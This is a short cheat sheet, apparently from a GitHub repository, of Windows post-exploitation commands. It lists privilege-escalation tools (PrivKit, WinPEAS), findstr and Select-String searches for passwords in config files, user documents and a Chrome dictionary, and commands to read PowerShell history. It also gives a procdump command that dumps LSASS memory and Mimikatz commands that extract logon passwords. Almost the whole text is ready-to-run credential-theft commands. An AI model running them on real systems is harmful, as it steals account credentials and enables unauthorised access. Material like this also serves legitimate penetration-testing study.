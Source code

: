 ### PrivKit
```powershell
c:\tools\PrivKit.exe
```

### WinPEAS
```powershell
c:\tools\winpeas.exe
```

## Credential Dumping

### File Searches
```powershell
findstr /SIM /C:"password" *.txt *ini *.cfg *.config *.xml
gc 'C:\Users\lafi\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
cd c:\Users\manoj\Documents & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
select-string -Path C:\Users\lafi\Documents\*.txt -Pattern password
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C: *.config
Get-ChildItem C: -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

### PowerShell History
```powershell
(Get-PSReadLineOption).HistorySavePath    # Confirm history path
gc (Get-PSReadLineOption).HistorySavePath    # Read history
```

## Credential Extraction with Mimikatz

### Step 1: Dump LSASS Memory
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### Step 2: Extract Credentials
```powershell
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Alternative Direct Extraction
```powershell
mimikatz.exe "sekurlsa::logonpasswords" exit
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```
